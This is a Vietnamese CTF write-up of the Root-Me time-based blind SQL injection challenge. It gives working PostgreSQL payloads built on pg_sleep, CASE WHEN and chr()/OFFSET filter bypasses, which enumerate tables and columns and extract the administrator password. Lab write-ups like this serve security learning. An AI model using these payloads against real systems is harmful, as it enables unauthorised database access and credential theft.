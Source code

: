 # Trần Mạnh Huy - Task3

* [1. SQL injection - Time based](1-sql-injection---time-based)

Vừa vào ta có giao diện:

![image](https://user-images.githubusercontent.com/104350480/221471713-d5066bc2-5f56-4f6a-81e8-098d3d375121.png)

Thử ở phần login nhưng có vẻ kh khai thác được gì, ta sang phần memberlist:

![image](https://user-images.githubusercontent.com/104350480/221471797-8014ce54-8754-4363-bffc-3c3ffd0988fa.png)

Nhấn vào admin với url: **http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1** , vì là dạng time-based nên ta cần test sleep để xem có bị dính sql không. Sau một hồi thử thì ta sleep được vói dạng của nó là postgresql: 

> payload: http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;+select+pg_sleep(10) --

Xác định được rồi giờ ta sẽ đi tìm tên bảng, tên cột và thông tin cần, cụ thể ở đây sẽ là tìm được administrator password với dạng payload chung:

> 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

![image](https://user-images.githubusercontent.com/104350480/221472507-a9b47bc2-01e9-4b72-88ed-6e8226cd219e.png)

Đầu tiên là cần tìm bảng, trước hết thì sẽ làm tìm độ dài của bảng:

> /web-serveur/ch40/?action=member&member=1;+select+case+when+((select+LENGTH(table_name)+from+information_schema.tables+limit+1)+>1)+then+pg_sleep(10)+else+pg_sleep(0)+end+-- 

Đi thử thế này sẽ rất là mất thời gian vì ta đang để limit trả về 1 với offset mặc định là 0, mà chẳng hạn bảng hay cột ta cần tìm ở cột thứ 6 hay 7 chẳng hạn thì thử sẽ mất kha khá thời gian. Mà để hiểu bản chất thì đành vậy.

Với payload trên ta sẽ kiểm tra xem độ dài chính xác của table_name ở hàng 1 là bao nhiêu, test đến khi > 5 kh thấy sleep nữa thì ta được độ dài của bảng là 5.
Với length=5, giờ ta đi tìm tên bảng bằng cách dùng SUBSTRING để đi bruteforce từng kí tự 1, cái này thì dùng burpsuite cho nhanh.
Nhưng đến khi dùng substring để tìm kí tự thì ta lại gặp vấn đề là kh sleep nữa dù payload đã chính xác:

> 1;+select+case+when+(SUBSTRING((select+table_name+from+information_schema.tables+limit+1),1,1)+>+'a')+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Có vẻ '',"" đã bị filter trong bài này, vậy thì ta sẽ chuyển sang dạng chr hoặc hex thử xem:

> 1;+select+case+when+(SUBSTRING((select+table_name+from+information_schema.tables+limit+1),1,1)+>+chr(97))+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Oke vậy là đã sleep được, ta sẽ triển khai tiếp bằng cách bruteforce các kí tự char.

![image](https://user-images.githubusercontent.com/104350480/221474078-c546ad59-df4f-4497-ade5-76b248a4e266.png)

> Sau khi fuzz ta được tên bảng ứng với các kí tự char là: 117,115,101,114,115 chuyển về ta được tên bảng là users

![image](https://user-images.githubusercontent.com/104350480/221477066-6360b685-32f7-4c28-9519-4db0ebadfbaa.png)


Ta có được tên bảng, giờ đi tìm username với password thôi.
Tương tự như trên ta đi xác định column password. Bài này filter cả dấu ',' nên kh thể dùng limit 1,1 hay 2,1 được, ta sẽ thay thế bằng offset với chức năng tượng tự. Thử cái đầu tiên với offset = 1, kh phải cái ta được tên cột là username với payload như bên dưới: 

> payload1: 1;+select+case+when+(select+length(column_name)+from+information_schema.columns+limit+1+offset+1)+>+1)+then+pg_sleep(10)+else+pg_sleep(0)+end+--
> payload2: 1;+select+case+when+(substring(select+(column_name)+from+information_schema.columns+limit+1+offset+1),1,1)+=+chr(x))+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Với length = 8 và bruteforce từng kí tự được: 

![image](https://user-images.githubusercontent.com/104350480/221482081-946047e6-2245-42c7-af12-6cc9fd46934e.png)

Tương tự ta cần tìm cột chứa thông tin password, cứ tiếp tục như trên đến khi offset = 5 ta được: 

![image](https://user-images.githubusercontent.com/104350480/221480820-c50769a7-8635-40ad-aa99-53ba1d364f45.png)

Vậy tìm được tên column ở hàng thứ 5 là password với tên bảng usesrs, mục tiêu là tìm password của username là administrator nên ta tiếp tục lấy giá trị của password ra: 

> payload: 1;+select+case+when+((select length(password) from users+limit+1)>1)+then+pg_sleep(20)+else+pg_sleep(0)+end+--

Thử như vậy ta được length của password hàng 1 có độ dài là 13
